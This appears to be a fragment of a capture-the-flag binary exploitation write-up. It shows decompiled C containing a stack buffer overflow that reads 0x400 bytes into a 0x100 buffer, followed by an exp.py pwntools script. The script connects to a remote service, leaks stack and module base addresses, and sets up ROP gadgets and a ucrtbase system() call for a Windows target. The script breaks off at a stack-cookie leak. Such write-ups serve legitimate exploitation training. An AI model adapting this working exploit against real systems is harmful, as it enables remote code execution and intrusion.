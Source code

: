 ```c
    memset(&Dst, 0, 0x100ui64);
    puts("input:");
    read(0, &Dst, 0x400u);
    puts("buffer:");
    puts(&Dst);
  }
  while ( v3 > 0 );
  return 0i64;
}
```

### exp.py

```py
# encoding=utf-8
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

p = remote('10.210.108.240', 10030)


def leak(size):
    p.sendafter("input:\r\n", "a"*size)
    p.recvuntil("buffer:\r\n")
    p.recvuntil("a"*size)


# ntdll
p_rdx_rcx_r8_r9_r2 = 0x8B540
p_rbx = 0xF70BF

# pe file
puts_offset = 0x10a6
read_import = 0x2178
cookie_offset = 0x3008
ret_address = 0x10ca

# ucrtbase
system_address = 0xae5d0
cmd_address = 0xd0c00

raw_input()
leak(0x100)
gs_value = u64(p.recv(6).ljust(8, b"\x00"))
log.success("gs_value {}".format(hex(gs_value)))

# leak(0x118)
# pe_base = u64(p.recv(6).ljust(8, b"\x00")) - 0x12f4
# log.success("pe base {}".format(hex(pe_base)))
#leak(0x118)
#pe_base = u64(p.recvn(6).ljust(8,'\x00')) - 0x12f4

#leak ntdll
pe_base = 0x7ff69f6e0000
log.success("pe base => " + hex(pe_base))
leak(0x188)
ntdll_base = u64(p.recvn(6).ljust(8,'\x00')) - 0x4cec1
#
ntdll_base = 0x7ffddc5d0000
log.success("ntdll base => " + hex(ntdll_base))
#leak s_cookie
```